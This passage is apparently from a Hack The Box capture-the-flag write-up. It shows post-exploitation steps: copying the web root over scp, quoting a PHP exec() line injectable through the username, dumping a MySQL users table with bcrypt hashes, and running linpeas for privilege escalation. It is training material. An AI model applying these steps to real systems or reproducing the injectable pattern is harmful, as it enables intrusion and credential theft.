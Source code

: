 We get a SHEELL!
To get all the files used by the application we used the command: `scp -r  admin@10.10.11.221:/var/www/html/ .`
Looking at how the command injection is done the following line is when we send the request with the username payload: ` exec("/bin/bash /var/www/html/VPN/gen.sh $user", $output, $return_var);`

### Database

We know that a database is running supporting the application. Lets see if the database has useful informations.
To connect to it, use the following commands:

```
mysql -u admin -p <admin_password>
use htb_prod
show tables;
```

We got two tables, user and invite_codes
Users table is the most important and has the following users:

```
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| id | username     | email                      | password                                                     | is_admin |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| 11 | TRX          | trx@hackthebox.eu          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| 12 | TheCyberGeek | thecybergeek@hackthebox.eu | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| 13 | test         | test@2million.htb          | $2y$10$eyOtifAxQpGUbGoJ83N0.eSt4WSCaZrwUTDHFp69a0kwujG3Fl6n2 |        1 |
| 14 | admin        | admin@email.com            | $2y$10$0jw5FRXIJeD6wxDr5qWfreB17Mg/tUaN1fxZmHt6KB9qgByYSrcIy |        1 |
| 15 | zNetlux      | znetlux@gmail.com          | $2y$10$ZI5XrBcwe396TGmyWQyc7OAI8DBLrdltEQa3brET4uiPKfTuWmwQS |        0 |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
```

Since we didnt get any additional information, lets run linpeas!

## Privilege Escalation

Linpeas is a very common tool to find ways to do privilege escalation. Running it in the target machine we found a peculiar thing in the report. This finding is the presence of a file in the spool directory.

```
╔══════════╣ Mails (limit 50)
271      4 -rw-r--r--   1 admin    admin         540 Jun  2 23:20 /var/mail/admin
271      4 -rw-r--r--   1 admin    admin         540 Jun  2 23:20 /var/spool/mail/admin
```
